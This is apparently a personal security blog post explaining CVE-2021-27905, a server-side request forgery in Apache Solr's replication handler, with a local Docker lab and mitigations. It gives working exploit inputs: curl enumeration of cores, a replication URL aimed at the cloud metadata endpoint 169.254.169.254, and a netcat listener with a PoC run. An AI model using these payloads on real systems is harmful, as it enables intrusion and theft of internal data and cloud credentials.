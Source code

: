 ```yaml
---
title: "CVE-2021-27905"
date: 2025-10-19
draft: false
summary: "Understanding CVE-2021-27905 - Apache Solr SSRF"
tags: ["ssrf", "apache solr"]
categories: ["blog"]
series: ["cve breakdown"]
showToc: true
---
```


While performing a security assessment, I came across this vulnerability and did some research on what it was and how it could potentially be exploited in real-world scenarios...

Field | Value
-- | --
CVE | CVE-2021-27905
CVSSv3 | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
Affected Version | Apache Solr <= 8.8.1
Fixed In | Apache Solr 8.8.2
CWE | CWE-918 (SSRF)
Official Advisory | [Apache Solr](https://lists.apache.org/thread/90kct018gfdnvh9wh5xvt0grm9jk2l80)

## About CVE-2021-27905

**CVE-2021-27905** is a Server Side Request Forgery vulnerability affecting **Apache Solr** prior to version **8.8.2** that allows remote attackers to make arbitrary HTTP requests to internal or external systems through the replication handler's `masterUrl` parameter, potentially exposing internal services or sensitive cloud metadata.

> **Note**: The script and lab used in this blog can be found on my [Github](https://github.com/RIZZZIOM/CVE-2021-27905)

## Background

**Apache Solr** is an open-source search platform built on top of **Apache Lucene** (a Java search library). Think of it as a powerful, customizable "search-as-a-service" engine that developers embed in their own applications. It is used for the following reasons:
- **Full-text search:** indexing and searching documents, logs, or websites quickly.
- **Faceted navigation:** like ecommerce filters (brand, price, category).
- **Analytics:** Solr can run queries with aggregations and sorting efficiently.
- **Scalability:** multiple Solr servers can act as a distributed cluster (SolrCloud).

So in most companies, Solr runs inside their internal network, powering searches for websites, product catalogs, enterprise data, or logs.

### Solr Architecture

Solr runs as a Java web service (typically on port 8983). It exposes a REST-like HTTP API; so almost everything we do (search, upload, admin) is an HTTP request. 

| Component      | Description                                                                                                                                              |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Core**       | A single, independent index within a Solr instance. Each core has its own configuration (`solrconfig.xml`, `schema.xml`) and set of indexed data.        |
| **Collection** | In SolrCloud mode, a “collection” is spread across multiple **cores** on different servers (shards + replicas).                                          |
| **Handlers**   | Endpoints defined in `solrconfig.xml` that perform functions, e.g. `/select` for queries, `/update` for adding docs, `/replication` for syncing indexes. |
| **Admin API**  | `/solr/admin/...` endpoints that show info or perform management tasks.                                                                                  |

Since, identifying a valid `core` is crucial for exploiting the vulnerability, let us understand what a Core is...

### Solr `Cores` And Replication Handlers

A `Core` is a self contained search index + its configuration. For example, we might have:

```
/solr/products
/solr/blog
/solr/logs
```

Each of these is a core. Internally, Solr stores each core's data in

```
/var/solr/data/<CORE_NAME>/
```

There are multiple ways to find core names:
1. Admin API: the admin API endpoint can be used to query core names.

```
curl 'http://IP:PORT/solr/admin/cores?indexInfo=false&wt=json'
```

2. Web UI: when Solr runs without authentication, the base UI itself lists cores in the dropdown menu.

![](https://cdn.ziomsec.com/cve-2021-27905/cores_dropdown.webp)

3. Brute force: in many environments, admins follow predictable names like `gettingstarted`, `collection1`, `core0`, `logs`, `products`, `data`, `search` etc. These parts can be brute forced. 

Once we identify a core name, we can construct our replication endpoint. For example, if the core name is `gettingstarted`, the replication endpoint becomes:

```
/solr/gettingstarted/replication
```

Replication is a Solr feature. When we have multiple Solr nodes (leader-follower setup), we need the followers to copy the latest index files from the leader. This is done using the `ReplicationHandler`.

The request made for replication looks like this:

```
http://IP:PORT/solr/<core>/replication?command=fetchindex&masterUrl=http://leader.internal:8983/solr/<core>
```
> The follower fetches index  data from the leader's URL.

**This is where the vulnerability lies...**

### SSRF

The replication feature is handled by 2 main classes inside **`solr-core`**:
1. **`org.apache.solr.handler.ReplicationHandler`** - this parses the incoming replication requests and reads the `masterUrl` / `leaderUrl` from the HTTP request. In the affected versions, these parameters were not validated.
2. **`org.apache.solr.handler.IndexFetcher`** - this uses that URL to perform the actual HTTP request and pull index files from the provided location. 

Because **`ReplicationHandler`** failed to validate the `masterUrl`, attackers could supply any arbitrary URL. If the URL pointed to an external source, Solr would connect to it.

Anyone who could reach the HTTP port, could send a request given below and make Solr fetch an internal resource:

```
http://IP:PORT/solr/gettingstarted/replication?command=fetchindex&masterUrl=http://169.254.169.254/latest/meta-data/
```

This caused Solr to make an outbound request from the server itself, leading to **Server-Side Request Forgery (SSRF)**.

## Exploiting The Vulnerability

### Lab Setup

- A local lab can be setup by running the following commands:

```shell
# clone the repository
git clone https://github.com/RIZZZIOM/CVE-2021-27905.git
cd CVE-2021-27905/lab/ # contains docker-compose.yml

# run Apache Solr 8.10.1 using docker
docker compose up -d

# verify accessibility
docker ps
curl 'http://127.0.0.1:8983/solr'
# By default, the loopback IP is used to host Solr, to make it accessible externally, you can edit the 'docker-compose.yml' file. 
```

> In the lab, since we started Solr for the first time with `solr-precreate gettingstarted`, it automatically created a core named `gettingstarted` using the default configset.

### Blind SSRF

- Since our Solr instance is running on 8983, we can make the server make a callback to another system on the same network.
- Start a netcat listener on a different system:

```shell
nc -lnvp 1337
```

- Then we can run the PoC to get a callback on our **netcat** listener:

```shell
$ python3 cve-2021-27905.py --target http://127.0.0.1:8983 --payload http://192.168.1.103:1337/test
[+] Performing SSRF
[+] SSRF Exploit Sent Successfully
```

![](https://cdn.ziomsec.com/cve-2021-27905/ssrf_callback.webp)

> While researching this topic, I came across a blog post that demonstrates how it's even possible to achieve **RCE** through this method. It's definitely worth a read for anyone interested:  https://www.hacefresko.com/posts/rce-on-solr-server-via-replication

## Mitigations

Solr maintainers patched this vulnerability by fixing the `ReplicationHandler` to:
- Validate that `masterUrl` / `leaderUrl` points only to approved hosts.
- Restrict acceptable URL schemas (`http`, `https`)
- Harden remote streaming features.
- Recommend admins to secure `/replication` with authentication or remove it entirely if unused.

## References

- https://svn.apache.org/repos/infra/sites/solr/docs/8_8_1/solr-core/org/apache/solr/handler/ReplicationHandler.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-27905
- https://github.com/veracode-research/solr-injection
- https://issues.apache.org/jira/browse/SOLR-15217

---

That concludes my blog!
Until next time :)

---

